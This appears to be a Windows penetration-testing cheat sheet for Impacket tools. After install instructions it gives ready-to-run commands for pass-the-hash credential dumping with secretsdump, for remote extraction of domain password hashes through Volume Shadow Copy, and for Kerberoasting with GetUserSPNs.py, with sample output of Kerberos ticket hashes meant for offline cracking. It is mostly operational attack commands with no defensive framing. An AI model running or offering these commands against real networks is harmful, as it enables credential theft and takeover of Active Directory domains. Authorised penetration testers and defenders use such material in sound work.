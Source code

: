 Download VC++ For Python 2.7 (Needed to compile some modules)

- https://www.microsoft.com/en-us/download/details.aspx?id=44266

Install necessary modules (You may need to install pip first)

```
    python -m pip install pycrypto pyasn1 pyOpenSSL pyReadline ldapdomaindump
```

You can also download the PyCrypto binary if it fails to compile

- http://www.voidspace.org.uk/downloads/pycrypto26/pycrypto-2.6.win32-py2.7.exe

#### Secretsdump

Attempt to dump credentials from a remote machine via Pass the Hash
```
    python secretsdump.py ./localadmin@computername.domain.com -hashes aad3b435b51404eeaad3b435b51404ee:21306681c738c3ed2d615e29be1574a3
```

Dump domain password hashes remotely via Volume Shadow Copy
```
    c:\users\username\appdata\local\temp\sd.exe domain/username:password@dchostname -just-dc -use-vss -outputfile
```

#### GetUserSPNS.py

This is the easiest way to gather SPN tickets in the correct format for cracking with John or Hashcat
Source: https://room362.com/post/2016/kerberoast-pt2/
```
    root@wpad:~/impacket/examples# ./GetUserSPNs.py -request sittingduck.info/notanadmin -dc-ip <target DC ip address>
    Impacket v0.9.15-dev - Copyright 2002-2016 Core Security Technologies

    Password:
    ServicePrincipalName                Name        MemberOf                                              PasswordLastSet
    ----------------------------------  ----------  ----------------------------------------------------  -------------------
    http/win10.sittingduck.info         uberuser    CN=Enterprise Admins,CN=Users,DC=sittingduck,DC=info  2015-11-10 23:47:21
    MSSQLSvc/WIN2K8R2.sittingduck.info  sqladmin01                                                        2016-05-13 19:13:20

    $krb5tgs$23$*sqladmin01$SITTINGDUCK.INFO$SPN*$6e5307df490c6e3339f613fdc5655785$80ba233b4d24531202f2e354c99e7eda807bde7aeeb48ee4cdb6bf809d78652413699e3cff8b9b78b9ee70e997a538155fc7f72e208d715020d458b8413d4b12b212738833c4694d84937d65cb8ecd0020c00a5d39c07da35a748ea2cb062fca4fa9b282e7046d70ee1cae4cfee7d6f791052e283
    $krb5tgs$23$*uberuser$SITTINGDUCK.INFO$SPN*$27c08ed2a8d5394f66e8c13c25c98393$310b787ec5c10b20fcc0acb1406b6a6e2ffddd71de3dc4c70c19e5dfcf262cc88574e61cb3940ebfd574b2bb555f2b05f84d8526e3cf46fc0ca57e03467729757cbf79da9f55cde9dabdda68e80dce6564e9f1b904b0585dbc813b82abf89e973e41c102b664f4c649f85acaf7904a273dddcb9315a66f27334f313190e1caf4f5055b671d250f5912cc1871a1dd4a6126087ddfb98ade8f7dde495ee8ad76583aa5a12eef63a690dd82a15eaaca0d7594f2f1dbc899035d89dd628b291590058cfb3405d1dfe4a383be5704465d9c8972ef8f1cba3541fdfa7dcf5063eaed74051fa18bd73f7b4f7d77
```
